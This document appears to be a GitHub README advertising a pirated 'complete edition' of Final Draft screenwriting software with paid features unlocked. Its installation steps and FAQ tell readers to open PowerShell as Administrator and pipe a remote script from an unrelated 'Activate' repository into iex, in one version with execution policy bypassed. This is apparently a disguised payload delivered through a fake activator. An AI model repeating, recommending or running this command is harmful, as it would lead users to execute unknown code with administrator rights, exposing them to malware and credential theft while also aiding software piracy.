

<div align="center">


<br>


# Final Draft Professional Screenwriting Complete Edition
**Script format · Beat board · Revision mode**
<br>
**Script format · Beat board · Revision mode**
<br>
Premium · Pro · Complete · Windows



**Final Draft Professional — industry script format, beat board, revision mode and production tools enabled.**

</div>

---

> Write production-ready scripts — Final Draft pro formatting and collaboration tools enabled.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🎬 **Creative production** — Pro writing or simulation tools enabled.
📦 **Local desktop suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for creative workstations.
⚙️ **Pro workflow** — Industry-standard features included.
✨ **Premium modules** — Paid creative features enabled.
📋 **Complete toolkit** — Templates and assets supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 2 gb free space.
</details>


TAGS
final-draft, final-draft-12, screenwriting, scriptwriting, screenplay-software, film-script, tv-script, screenplay-format, script-editor, writing-software, final-draft-pro, screenwriter-tools, story-development, script-formatting, hollywood-script
